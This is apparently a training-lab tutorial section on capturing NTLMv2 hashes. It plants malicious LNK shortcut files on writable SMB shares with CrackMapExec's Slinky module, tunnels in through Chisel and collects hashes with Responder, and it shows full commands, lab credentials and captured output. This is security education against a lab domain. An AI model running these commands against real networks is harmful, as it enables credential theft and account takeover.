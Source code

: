 # Stealing Hashes

One of the most common techniques for compromising new accounts is the theft of password hashes. There are different methods of achieving this, but a widespread one is forcing a computer or user to initiate an authentication process with a fake shared folder we control.

When starting this authentication process, the user or computer does it with an NTLMv2 hash. This hash could be cracked using a tool such as Hashcat or forwarded to another computer to impersonate the user without knowing their credentials.

To steal hashes using shared folders, we can create a shortcut and configure it so that the icon that appears in the shortcut points to our fake shared folder. Once the user enters the shared folder, it will try to look for the icon's location, forcing the authentication against our shared folder.

To learn more about harvesting NTLMv2 hashes, we can read the blog [Farming for Red Teams: Harvesting NetNTLM from MDsec](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/) which shows not only the use of shortcuts but also other types of files that serve the same purpose.

***

## Slinky Module

`Slinky` is a module created by [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) and by far one of the most exciting modules on CME. The principle is straightforward. The module creates Windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions. When someone visits the share, we will get their NTLMv2 hash using Responder because the icon attribute contains a UNC path to our server.

The module has two mandatory options, `SERVER` and `NAME`, and one optional `CLEANUP`.

### **Slinky Module Options**

```shell-session
$ crackmapexec smb -M slinky --options

[*] slinky module options:

        SERVER        IP of the SMB server
        NAME          LNK file nametest
        CLEANUP       Cleanup (choices: True or False)
```

`SERVER` corresponds to the IP of the SMB server we control and where we want the UNC path to point. The `NAME` option assigns a name to the shortcut file, and `CLEANUP` is to delete the shortcut once we finish.

***

## Connecting using Chisel

For this exercise, we will simulate local access and use Chisel and Proxychains to connect to the internal network. Chisel is already running as a server in our target machine, and we need to connect as a client and then use proxychains to enumerate the internal network. To connect using Chisel let's use the following command:

### **Connecting to the Target Machine Chisel Server**

```shell-session
$ sudo chisel client 10.129.204.133:8080 socks

2022/11/22 07:15:52 client: Connecting to ws://10.129.204.133:8080
2022/11/22 07:15:52 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/11/22 07:15:53 client: Connected (Latency 125.541725ms)
```

***

## Stealing NTLMv2 Hashes

First, let us find a share where the user `grace` has `WRITE` privileges using the option `--shares`:

### **Finding Shares with WRITE Privileges**

```shell-session
$ proxychains4 -q crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! --shares

SMB         172.16.1.10     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         172.16.1.10     445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
SMB         172.16.1.10     445    DC01             [+] Enumerated shares
SMB         172.16.1.10     445    DC01             Share           Permissions     Remark
SMB         172.16.1.10     445    DC01             -----           -----------     ------
SMB         172.16.1.10     445    DC01             ADMIN$                          Remote Admin
SMB         172.16.1.10     445    DC01             C$                              Default share
SMB         172.16.1.10     445    DC01             D$                              Default share
SMB         172.16.1.10     445    DC01             flag            READ            
SMB         172.16.1.10     445    DC01             HR              READ,WRITE      
SMB         172.16.1.10     445    DC01             IPC$            READ            Remote IPC
SMB         172.16.1.10     445    DC01             IT                              
SMB         172.16.1.10     445    DC01             IT-Tools        READ,WRITE      
SMB         172.16.1.10     445    DC01             NETLOGON        READ            Logon server share 
SMB         172.16.1.10     445    DC01             SYSVOL          READ            Logon server share
```

As we see, `grace` can write to the `HR` and `IT-Tools` shares. Therefore we can use the module `Slinky` to write an LNK file to each share. We will use the option `SERVER=10.10.14.33`, the IP address corresponding to our attack host's `tun0` network, and the option `NAME=important`, which is the file name we are assigning to the LNK file.

### **Using Slinky**

```shell-session
$ proxychains4 -q crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! -M slinky -o SERVER=10.10.14.33 NAME=important
[!] Module is not opsec safe, are you sure you want to run this? [Y/n] y

SMB         172.16.1.10     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         172.16.1.10     445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
SLINKY      172.16.1.10     445    DC01             [+] Found writable share: HR
SLINKY      172.16.1.10     445    DC01             [+] Created LNK file on the HR share
SLINKY      172.16.1.10     445    DC01             [+] Found writable share: IT-Tools
SLINKY      172.16.1.10     445    DC01             [+] Created LNK file on the IT-Tools share
```

{% embed url="https://academy.hackthebox.com/storage/modules/84/slinky-lnk-file.jpg" %}

{% hint style="info" %}
**Note:** CrackMapExec is generally considered opsec safe because everything is either run in memory, enumerated over the network using WinAPI calls, or executed using built-in Windows tools/features. We will get a prompt when a module doesn't meet these requirements. The Slinky module is an example of a not opsec safe module. We will get a prompt before proceeding.
{% endhint %}

Once the LNK file is created, we need to run `Responder` and wait for someone to browse to the share. To learn more about how to use Responder, we can check the section [Attacking SMB](https://academy.hackthebox.com/module/116/section/1167) in the [Attacking Common Services](https://academy.hackthebox.com/module/details/116/) module.

### **Starting Responder**

```shell-session
$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script, hit CTRL-C

<SNIP>

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.204.133
[SMB] NTLMv2-SSP Username : INLANEFREIGHT\julio
[SMB] NTLMv2-SSP Hash     : julio::INLANEFREIGHT:6ab02caa0926e456:433DB600379844344ED4D3A073CAF995:[SNIP]
```

{% hint style="info" %}
**Note:** The SMB option should be `On` in the `Responder.conf` file to capture the hash.
{% endhint %}

We got our NTLMv2 hash, and we need to crack it to exploit the account, or we can do an NTLM Relay. To crack it, we can use Hashcat mode `5600` just as we did with ASREPRoast and Kerberoasting. Let's focus on NTLM Relay.

